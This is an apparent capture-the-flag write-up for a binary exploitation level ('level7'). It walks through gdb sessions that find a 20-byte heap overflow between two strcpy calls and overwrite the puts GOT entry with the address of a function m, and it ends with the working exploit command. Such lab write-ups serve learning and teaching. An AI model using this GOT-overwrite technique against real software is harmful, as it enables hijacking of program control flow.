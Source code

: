 The `main` function expects 2 arguments to get `c` value to be print by `m`, so therefore, execute `m` by hijacking the `puts` execution.

1. Find the buffer size of the first `strcpy`.
In gdb :
```
(gdb) run AAA AAA
Starting program: /home/user/level7/level7 AAA AAA

Breakpoint 1, 0x080485a0 in main ()
(gdb) i r $eax
eax            0x804a018	134520856
(gdb) x /128x 0x804a018
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000011
0x804a028:	0x00000002	0x0804a038	0x00000000	0x00000011
```
```
>>> int(hex(0x804a028 - 0x804a018), 16) + 4
20
```

2. Playing around
We can observe the overflow of the first `strcpy` in eax of the second one provocating a Segmentation fault.
```
Starting program: /home/user/level7/level7 $(python -c "print 'A' * 20 + 'BBBB'") $(python -c "print 'A'")

Breakpoint 1, 0x080485bd in main ()
(gdb) i r $eax
eax            0x42424242	1111638594
(gdb) c
Continuing.
Program received signal SIGSEGV, Segmentation fault.
0xb7eb18f3 in ?? () from /lib/i386-linux-gnu/libc.so.6
```
The 2nd `strcpy` tries to write the content of our argv[2] into the value of the first.

3. Use that observation to replace the address of `puts` with the address of `m`.
```
(gdb) x 0x8048400
   0x8048400 <puts@plt>:	0x992825ff
(gdb) disas 0x8048400
Dump of assembler code for function puts@plt:
  0x08048400 <+0>:	jmp    *0x8049928
  0x08048406 <+6>:	push   $0x28
  0x0804840b <+11>:	jmp    0x80483a0
End of assembler dump.
```
The address of `puts` is `0x8049928`.
```
(gdb) x m
0x80484f4 <m>:	0x83e58955
```
The address of `m` is `0x80484f4`.

Test :
```
Starting program: /home/user/level7/level7 $(python -c "print 'A' * 20 + '\x28\x99\x04\x08'") $(python -c "print '\xf4\x84\x04\x08'")

Breakpoint 1, 0x080485bd in main ()
(gdb) x 0x8049928
0x8049928 <puts@got.plt>:	0x08048406
(gdb) c
Continuing.

Breakpoint 2, 0x080485d3 in main ()
(gdb) x 0x8049928
0x8049928 <puts@got.plt>:	0x080484f4
```
It works !

4. Finally, in the terminal :
```
./level7 $(python -c "print 'A' * 20 + '\x28\x99\x04\x08'") $(python -c "print '\xf4\x84\x04\x08'")
```